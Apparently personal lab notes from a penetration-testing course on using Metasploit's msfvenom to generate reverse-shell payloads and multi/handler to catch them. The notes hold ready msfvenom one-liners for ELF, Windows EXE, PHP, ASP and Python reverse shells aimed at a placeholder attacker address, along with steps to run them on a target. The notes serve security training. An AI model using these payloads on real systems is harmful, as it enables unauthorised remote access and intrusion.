 *Note:*
	The output PHP file will miss the starting PHP tag commented and the end tag (`?>`), as seen below:
![[Pasted image 20240815201517.png]]

The reverse_shell.php file should be edited to convert it into a working PHP file. 
Below: Comments removed from the beginning of the file // end tag added.
![[Pasted image 20240815201603.png]]
![[Pasted image 20240815201632.png]]

We will use Multi Handler to receive the incoming connection. The module can be used with the `use exploit/multi/handler` command. Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells. To use the module, we will need to set the payload value (`php/reverse_php` in this case), the LHOST, and LPORT values.
![[Pasted image 20240815201802.png]]

Once everything is set, we will `run` the handler and wait for the incoming connection.
![[Pasted image 20240815201819.png]]

Note:
	When the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell. If the payload was set as Meterpreter (e.g. in a Windows executable format), multi/handler would then provide us with a Meterpreter shell.

### Other Payloads
Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen. Below are a few examples you will often use:

**Linux Executable and Linkable Format (elf)**  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`  

The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.  
  
**Windows**  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`  
  
**PHP**  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`  
  
**ASP**  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`  
  
**Python**  
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`


**Workflow**
1) Create a meterpreter payload in the .elf format 
![[Pasted image 20240815204009.png]]
